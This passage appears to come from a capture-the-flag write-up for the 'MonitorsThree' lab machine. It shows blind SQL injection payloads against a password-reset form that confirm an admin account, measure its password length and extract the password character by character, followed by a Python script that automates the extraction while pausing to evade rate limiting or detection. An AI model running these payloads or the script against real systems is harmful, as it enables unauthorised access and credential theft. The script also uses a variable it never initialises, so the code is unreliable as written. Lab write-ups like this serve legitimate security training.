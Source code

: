so, we know there is user called admin more clinically now.

```
ad' ||((SELECT 'a' FROM users WHERE username='admin' and length(password)=32)='a')||'
```

I found out password length is 32, now to enumerate password one by one character i am using below queries:

```
ad' ||(SELECT SUBSTRING(password,1,1) FROM users WHERE username='admin')='3'||'
```

```
ad' ||(SELECT SUBSTRING(password,2,1) FROM users WHERE username='admin')='1'||'
```

It is time consuming so i decided to do it with python script:

```
import requests
import time

# Target URL
url = "http://monitorsthree.htb/forgot_password.php"

characters = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"

# Function to check if a guessed character is correct
def is_correct_char(position, char):
    # Construct payload
    payload = f"ad' ||((SELECT SUBSTRING(password,{position},1) FROM users WHERE username='admin')='{char}')||'"

    # Data to be sent in the POST request
    data = {
        "username": payload,
        "submit": "Send"
    }

    try:
        # Send the POST request
        response = requests.post(url, data=data)
        # Check response to see if the guess was correct
        if "Successfully sent password reset request!" in response.text:
            return True
    except requests.exceptions.ConnectionError as e:
        print("Connection error. Retrying...")
        time.sleep(5)  # Wait for 5 seconds before retrying
        return is_correct_char(position, char)
    return False

# Loop to find each character of the password
for position in range(1, 33):  # Assuming password length is 32
    for char in characters:
        if is_correct_char(position, char):
            # Add the correct character to the known password
            known_password += char
            print(f"[+] Found character {position}: {char}")
            break
    # Delay to avoid server-side rate limiting or detection
    time.sleep(1)  # Adjust the delay as necessary

# Print the complete password when done
print(f"[+] Password: {known_password}")

```
